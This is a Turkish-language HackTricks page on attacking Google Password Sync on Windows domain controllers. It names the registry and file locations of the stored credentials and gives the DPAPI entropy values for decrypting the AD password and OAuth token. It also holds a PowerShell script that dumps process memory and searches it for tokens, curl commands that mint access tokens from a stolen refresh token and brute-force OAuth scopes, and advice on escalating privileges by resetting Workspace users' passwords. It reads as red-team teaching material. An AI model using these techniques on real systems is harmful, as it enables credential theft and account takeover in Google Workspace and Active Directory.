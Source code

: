 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Temel Bilgiler

Bu, Google'ın **AD ile Workspace arasındaki kullanıcı şifrelerini senkronize tutmak için** sunduğu ikili dosya ve hizmettir. Bir kullanıcı AD'de şifresini her değiştirdiğinde, bu Google'a ayarlanır.

`C:\Program Files\Google\Password Sync` dizinine kurulur; burada yapılandırmak için `PasswordSync.exe` ikili dosyasını ve çalışmaya devam edecek olan `password_sync_service.exe` (hizmet) dosyasını bulabilirsiniz.

### GPS - Yapılandırma

Bu ikili dosyayı (ve hizmeti) yapılandırmak için, **Workspace'de bir Süper Yönetici yetkisi vermek** gereklidir:

* Google ile **OAuth** üzerinden giriş yapın ve ardından **kayıt defterinde (şifreli) bir token saklayacaktır**
* Sadece GUI'ye sahip Alan Denetleyicilerinde mevcuttur
* **Workspace kullanıcılarını yönetme** izinlerine sahip bazı **GCP Hizmet Hesabı kimlik bilgileri** (json dosyası) vermek
* Bu kimlik bilgileri asla süresi dolmadığı için çok kötü bir fikirdir ve kötüye kullanılabilir
* Workspace üzerinde bir SA'ya erişim vermek çok kötü bir fikirdir çünkü SA GCP'de tehlikeye girebilir ve Workspace'e geçiş yapmak mümkün olacaktır
* Google, GUI'siz alan denetimleri için bunu gerektirir
* Bu kimlik bilgileri de kayıt defterinde saklanır

AD ile ilgili olarak, mevcut **uygulama bağlamını, anonim veya bazı özel kimlik bilgilerini** kullanmasını belirtmek mümkündür. Kimlik bilgileri seçeneği seçilirse, **kullanıcı adı** bir dosyada **diskte** saklanır ve **şifre** **şifrelenir** ve **kayıt defterinde** saklanır.

### GPS - Diskten şifre ve token dökme

{% hint style="success" %}
Not edin ki [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) **GPS**'yi tespit edebilir, yapılandırma hakkında bilgi alabilir ve **şifreyi ve token'ı bile şifreleyebilir**.
{% endhint %}

**`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** dosyasında, yapılandırmanın bir kısmını bulmak mümkündür; burada yapılandırılan AD'nin **`baseDN`** ve kullanılan kimlik bilgileri olan **`username`** yer alır.

Kayıt defterinde **`HKLM\Software\Google\Google Apps Password Sync`** altında, AD kullanıcısı için **şifrelenmiş yenileme token'ı** ve **şifrelenmiş şifre** bulunabilir (varsa). Ayrıca, bir token yerine bazı **SA kimlik bilgileri** kullanılıyorsa, bu kimlik bilgileri de o kayıt defteri adresinde şifrelenmiş olarak bulunabilir. Bu kayıt defterindeki **değerler** yalnızca **Yönetici** tarafından **erişilebilir**.

Şifrelenmiş **şifre** (varsa) **`ADPassword`** anahtarının içindedir ve **`CryptProtectData`** API'si kullanılarak şifrelenmiştir. Şifreyi çözmek için, şifre senkronizasyonunu yapılandıran kullanıcı ile aynı kullanıcı olmanız ve **`CryptUnprotectData`** kullanırken bu **entropy**'yi kullanmanız gerekir: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Şifrelenmiş token (varsa) **`AuthToken`** anahtarının içindedir ve **`CryptProtectData`** API'si kullanılarak şifrelenmiştir. Şifreyi çözmek için, şifre senkronizasyonunu yapılandıran kullanıcı ile aynı kullanıcı olmanız ve **`CryptUnprotectData`** kullanırken bu **entropy**'yi kullanmanız gerekir: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Ayrıca, **`0123456789abcdefghijklmnopqrstv`** sözlüğü ile base32hex kullanılarak kodlanmıştır.

Entropy değerleri, aracı kullanarak bulundu. Araç, **`CryptUnprotectData`** ve **`CryptProtectData`** çağrılarını izlemek için yapılandırıldı ve ardından `PasswordSync.exe`'yi başlatmak ve izlemek için kullanıldı; bu, yapılandırılan şifreyi ve kimlik doğrulama token'ını başta çözmekte ve araç, her iki durumda kullanılan **entropy** değerlerini **gösterecektir**:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Bu API'lere yapılan çağrıların giriş veya çıkışında **şifrelenmemiş** değerleri görmek de mümkündür (eğer bir noktada Winpeas çalışmayı durdurursa).

Eğer Şifre Senkronizasyonu **SA kimlik bilgileri ile yapılandırılmışsa**, bu da kayıt defterindeki **`HKLM\Software\Google\Google Apps Password Sync`** anahtarları içinde saklanacaktır.

### GPS - Bellekten token dökme

GCPW ile olduğu gibi, `PasswordSync.exe` ve `password_sync_service.exe` süreçlerinin belleğini dökmek mümkündür ve yenileme ve erişim token'larını bulabileceksiniz (eğer zaten oluşturulmuşlarsa).\
Ayrıca, AD yapılandırılmış kimlik bilgilerini de bulabilirsiniz.

<details>

<summary>Dump <code>PasswordSync.exe</code> ve <code>password_sync_service.exe</code> süreçlerini ve token'ları arayın</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Yenileme jetonlarından erişim jetonları oluşturma

Yenileme jetonunu kullanarak, aşağıdaki komutta belirtilen istemci kimliği ve istemci sırrını kullanarak erişim jetonları oluşturmak mümkündür:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Kapsamlar

{% hint style="info" %}
Bir yenileme token'ına sahip olsanız bile, erişim token'ı için herhangi bir kapsam talep etmek mümkün değildir çünkü yalnızca **erişim token'ını oluşturduğunuz uygulama tarafından desteklenen kapsamları talep edebilirsiniz**.

Ayrıca, yenileme token'ı her uygulamada geçerli değildir.
{% endhint %}

Varsayılan olarak GPS, kullanıcı olarak her olası OAuth kapsamına erişime sahip olmayacaktır, bu nedenle aşağıdaki betiği kullanarak `refresh_token` ile bir `access_token` oluşturmak için kullanılabilecek kapsamları bulabiliriz:

<details>

<summary>Kapsamları zorlamak için Bash betiği</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Ve yazım anında aldığım çıktı şuydu:
```
https://www.googleapis.com/auth/admin.directory.user
```
Hangi, herhangi bir kapsam belirtmediğinizde aldığınızla aynıdır.

{% hint style="danger" %}
Bu kapsamla, **mevcut bir kullanıcının şifresini değiştirerek ayrıcalıkları artırabilirsiniz**.
{% endhint %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
